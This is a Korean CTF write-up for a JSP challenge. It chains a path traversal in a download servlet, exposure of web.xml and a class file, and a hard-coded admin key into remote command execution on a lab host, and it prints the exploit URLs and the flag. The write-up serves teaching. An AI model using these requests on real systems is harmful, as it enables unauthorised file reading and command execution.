

# 17. JSP Chain — Path Traversal

## 문제 설명
"Corp Internal Portal"의 문서 다운로드 기능을 시작점으로, 여러 취약점을 연결해
최종적으로 원격 명령 실행(RCE)으로 `/flag`를 읽는 캡스톤 문제.

공격 체인:
`/download` 임의 파일 읽기 → `WEB-INF/web.xml` 노출 → `AdminServlet.class` 획득·디컴파일
→ 숨겨진 운영 엔드포인트와 인증 키 확인 → `Runtime.exec()` 명령 실행 → `/flag` 읽기.

## 분석

### 1) 다운로드 서블릿의 Path Traversal
`/download?file=`이 파일명을 `new File(base, f)`에 그대로 붙여 반환한다.
경로 정규화·allowlist가 없어 `WEB-INF` 내부 파일도 읽을 수 있다.
Tomcat이 `/WEB-INF/*` 직접 접근을 막아도, 서블릿이 파일시스템에서 직접 읽어 응답하므로 우회된다.

### 2) web.xml 노출 → 숨겨진 관리 엔드포인트 확인
```
/download?file=WEB-INF/web.xml
```
web.xml에서 숨겨진 관리 기능의 경로와 클래스가 드러난다.
```xml
<servlet-class>com.corp.AdminServlet</servlet-class>
<url-pattern>/sys/exec-9f3a</url-pattern>
```

### 3) 클래스 파일 획득 → 디컴파일 → 하드코딩 키 노출
```
/download?file=WEB-INF/classes/com/corp/AdminServlet.class
```
CFR·Procyon·JD-GUI 등으로 디컴파일하면 운영 키 검증과 명령 실행 로직이 보인다.
하드코딩된 키: `Zx9_d3c0mp1l3_th1s_k3y_2026`. 인증이 통과하면 `cmd` 값을
`Runtime.getRuntime().exec(cmd)`에 그대로 전달하여 RCE가 성립한다.

## 익스플로잇

### 최종 요청 (명령 실행)
```
http://edu.arang.kr:9711/sys/exec-9f3a?key=Zx9_d3c0mp1l3_th1s_k3y_2026&cmd=cat%20/flag
```
이 URL에 접근하면 `cat /flag`가 실행되어 flag가 출력된다.

참고: `Runtime.exec(String)`은 셸을 거치지 않아 `;`·파이프·리다이렉션은 동작하지 않는다.
`cat /flag`처럼 실행 파일과 인자를 직접 전달하는 형태는 유효하다.



## 플래그
```
flag{aff6951b0cfd99b6a595}
```
